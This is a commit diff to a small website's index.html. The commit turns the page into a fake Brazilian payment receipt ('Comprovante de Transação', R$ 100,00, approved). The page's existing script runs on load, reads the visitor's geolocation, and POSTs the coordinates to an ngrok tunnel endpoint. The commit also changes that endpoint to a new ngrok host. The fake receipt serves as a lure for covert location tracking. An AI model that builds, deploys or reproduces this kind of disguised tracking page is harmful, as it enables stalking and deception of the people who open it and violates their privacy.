

Before and after one commit to edrolucas/Localiz, a website: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (0-864 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -2,10 +2,59 @@
 <html lang="pt-BR">
 <head>
   <meta charset="UTF-8">
+  <meta name = "viewport" content="width=device-width, initial-scale=1.0">
   <title>Comprovante</title>
+  <style>
+    body{
+      font-family: 'Courier New', Courier, monospace;
+      background-color: #f5f5f5;
+      display: flex;
+      justify-content: center;
+      align-items: center;
+      height: 100vh;
+      margin: 0;
+    }
+    .receipt{
+      background: white;
+      padding: 20px;
+      width: 300px;
+      box-shadow: 0px 0px 10px rgba(0,0,0,0.1);
+      border-radius: 5px;
+      border-top: 5px dashed black;
+      border-bottom: 5px dashed black;
+      text-align: center;
+    }
+    .receipt h1 {
+      font-size: 18px;
+      margin-bottom: 10px;
+    }
+    .details {
+      text-align: left;
+      font-size: 14px;
+      line-height: 1.5;
+      border-top: 1px dashed black;
+      padding-top: 10px;
+      margin-top: 10px;
+    }
+
+    .footer{
+      border-top: 1px dashed black;
+      padding-top: 10px;
+      font-size: 12px;
+      margin-top: 10px;
+    }
+  </style>
 </head>
-<body style="background-color: antiquewhite;">
-  <h1>Comprovante</h1>
+<body>
+  <div class="receipt">
+  <h1>Comprovante de Transação</h1>
+  <p>Data: <span id="date"></span></p>
+  <div class="details">
+    <p><strong>Valor:</strong> R$ 100,00</p>
+    <p><strong>Transação:</strong> Aprovada</p>
+
+  </div>
+  </div>
 
   <script>
     // Executa automaticamente ao carregar a página
@@ -25,7 +74,7 @@
       console.log("Longitude: " + longitude);
 
       // Envia a localização para o backend
-      fetch("https://55c7-187-19-219-30.ngrok-free.app/send-location", {
+      fetch(" https://8dbb-187-19-219-30.ngrok-free.app/send-location", {
         method: "POST",
         headers: {
           "Content-Type": "application/json"
```
